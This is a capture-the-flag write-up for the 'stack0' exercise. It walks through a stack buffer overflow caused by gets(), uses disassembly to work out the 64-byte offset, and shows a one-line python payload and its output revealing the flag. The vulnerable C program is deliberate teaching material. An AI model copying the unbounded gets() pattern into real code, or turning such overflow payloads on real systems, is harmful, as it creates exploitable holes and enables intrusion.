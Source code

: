 ```yaml
---
title:  "Writeup: stack0"
date:   2020-03-23 09:00:00
categories: writeup
layout: post
author: Tim Winters
---
```


The challenge requires us to exploit the binary using a standard buffer
overflow  to change the value of `modified`. 


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  FILE *fp;

  modified = 0;
  gets(buffer);
  fp  = fopen("./flag.txt", "r");

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
  } else {
      printf("Try again?\n");
  }
}
```

The vulnerability is with `gets`, which reads input from standard in, but does
no bounds checking. We can use this to write past the memory region allocated
to `buffer`, and overwrite the value of `modified`. To determine how many bytes
we need to write we must look at this disassembly code. 

<pre>
   0x080484eb <+0>:		lea    ecx,[esp+0x4]
   0x080484ef <+4>:		and    esp,0xfffffff0
   0x080484f2 <+7>:		push   DWORD PTR [ecx-0x4]
   0x080484f5 <+10>:	push   ebp
   0x080484f6 <+11>:	mov    ebp,esp
   0x080484f8 <+13>:	push   ecx
   0x080484f9 <+14>:	sub    esp,0x54
   0x080484fc <+17>:	mov    DWORD PTR [ebp-0x10],0x0
   0x08048503 <+24>:	sub    esp,0xc
   <font color="red">0x08048506 <+27>:	  lea    eax,[ebp-0x50]</font>
   0x08048509 <+30>:	push   eax
   0x0804850a <+31>:	call   0x8048390 &ltgets@plt&gt
</pre>

Calling conventions for Intel x86 say that any arguments will be pushed on the
stack. Before the call to `gets` at `main + 31`, the address `epb-0x50` is
loaded into `eax` and then pushed onto the stack. Therefore we know that
`buffer` starts at address `ebp-0x50`, but I'll use `0x50` for the rest of this
guide. 

Now that we know where the buffer is, we need the address of `modified`.
Examining the assembly code further

<pre>
   0x0804850f <+36>:	add    esp,0x10
   0x08048512 <+39>:	sub    esp,0x8
   0x08048515 <+42>:	push   0x8048610
   0x0804851a <+47>:	push   0x8048612
   0x0804851f <+52>:	call   0x80483d0 <fopen@plt>
   0x08048524 <+57>:	add    esp,0x10
   0x08048527 <+60>:	mov    DWORD PTR [ebp-0xc],eax
   <font color="red">0x0804852a <+63>:	  mov    eax,DWORD PTR [ebp-0x10]</font>
   0x0804852d <+66>:	test   eax,eax
   0x0804852f <+68>:	je     0x804856b <main+128>
</pre>

Here we see that `ebp - 0x10` (`0x10`) is put into `eax`, then checked to see
if it is non-zero through the `test` instruction. More info on that
[here](https://reverseengineering.stackexchange.com/questions/19235/purpose-of-test-eax-eax-after-a-strcmp).
This must be our `modified` variable. 

Some quick math of `0x50 - 0x10` = `0x40` = `64`. Therefore, we need 64 bytes
of data before we start overwriting the `modified` variable. Because it need
only be non-zero, just writing one byte will work. 

```
> python -c 'print "a"*65' | ./stack0

you have change the 'modified' variable
flag: 3ecc94ee2ad17bf3a32757d1900948bc
```
